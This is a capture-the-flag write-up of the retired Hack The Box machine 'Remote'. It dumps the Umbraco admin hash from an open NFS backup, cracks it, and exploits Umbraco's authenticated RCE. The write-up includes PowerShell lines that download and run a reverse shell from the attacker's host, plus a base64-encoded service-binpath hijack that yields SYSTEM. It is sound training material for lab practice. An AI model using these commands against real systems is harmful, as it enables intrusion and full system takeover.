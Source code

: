 # Remote

This is the write-up for the box Remote that got retired at the 5th September 2020.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.180    remote.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/remote.nmap 10.10.10.180
```

```
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service     
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking FTP (Port 21)

On FTP _anonymous login_ is allowed but there are no files and uploading files does not work either:
```
ftp 10.10.10.180
```

## Checking HTTP (Port 80)

The website is some kind of custom-developed shop called _Acme Widgets_ and has several menus, but most descriptions are the typical _Lorem Ipsum_ text.
On the path _/contact_, it shows that **Umbraco Forms** is required to render the form:

![Umbraco Forms required](remote_web-1.png)

When clicking on the link to install the forms, it forwards to _/umbraco/#/login_ and there is a login page to the application:

![Umbraco Login](remote_web-2.png)

The software [Umbraco CMS](https://umbraco.com/) is an Open Source **ASP.NET Content Management System** written in C#.

Lets search for public vulnerabilities and exploits in this software:
```
searchsploit umbraco
```
```
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution
```

There is a Remote Code Execution vulnerability that needs authentication, so the other services may contain credentials.

## Checking NFS (Port 2049)

The tool **showmount** of the **nfs-common package** will help to enumerate the NFS share:
```
showmount -e 10.10.10.180

/site_backups (everyone)
```

There is a path called _site_backups_, that can be mounted on our local client:
```
mkdir /mnt/remote

mount -t nfs 10.10.10.180:/site_backups /mnt/remote
```

The contents of the folder look like a copy of the web page.
A database file can be found in _/App_Data/Umbraco.sdf_ that cannot be read, but the `strings` can be searched for usernames:
```
strings Umbraco.sdf | grep password

strings Umbraco.sdf | grep admin
```
```
admin admin@htb.local b8be16afba8c314ad33d812f22a04991b90e2aaa {"hashAlgorithm":"SHA1" }
(...)
```

The user _admin@htb.local_ seems to be a valid user for the **Umbraco login form** and the password is hashed with **SHA-1**.
The hash can be found on hash databases like [CrackStation](https://crackstation.net/):
```
Hash	                                     Type	 Result
b8be16afba8c314ad33d812f22a04991b90e2aaa	 sha1	 baconandcheese
```

Login to **Umbraco** works with the username _admin@htb.local_ and password and the RCE vulnerability can be exploited next.

## Exploiting Umbraco

Copying the exploit code and modifying it accordingly to our needs:
```
searchsploit -m aspx/webapps/46153.py
```
```
(...)
{ string cmd = "/c ping 10.10.14.9"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
proc.StartInfo.FileName = "cmd.exe"; (...)

login = "admin@htb.local";
password= "baconandcheese";
host = "http://10.10.10.180";

(...)
```

Executing the script:
```
python3 46153.py
```

After executing it, the `tcpdump` listener on my local client receives the ICMP packets and command execution is proofed.
Lets use the _Invoke-PowerShellTcp.ps1_ script from the **Nishang scripts** to gain a reverse shell connection:
```
string cmd = "IEX( IWR http://10.10.14.9:8000/revshell.ps1 -UseBasicParsing)"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
proc.StartInfo.FileName = "powershell.exe"; (...)
```
```
python3 46153.py
```

After executing the script, the listener on my IP and port 9001 starts a reverse shell connection as the user _DefaultAppPool_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration script**:
```
IWR http://10.10.14.9:8000/winPeas.exe -OutFile winPeas.exe

.\winPeas.exe
```

This user seems to have access to the service **UsoSvc** and can modify it.

Encoding the PowerShell command to run into Base64:
```
echo "IEX(IWR http://10.10.14.9:8000/revshell.ps1 -UseBasicParsing)" | iconv -t utf-16le | base64 -w 0
```

Modifying the path of the _UsoSvc service_ to execute a reverse shell:
```
sc.exe config UsoSvc binpath="cmd.exe /c powershell.exe -EncodedCommand SQBFAFgAKABJAFcAUgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AOQA6ADgAMAAwADAALwByAGUAdgBzAGgAZQBsAGwALgBwAHMAMQAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAKQAKAA=="
```

Restarting the service:
```
sc.exe stop UsoSvc

sc.exe start UsoSvc
```

After starting the service, the PowerShell command executes the reverse shell script and the listener on my IP starts a shell session as _SYSTEM_!
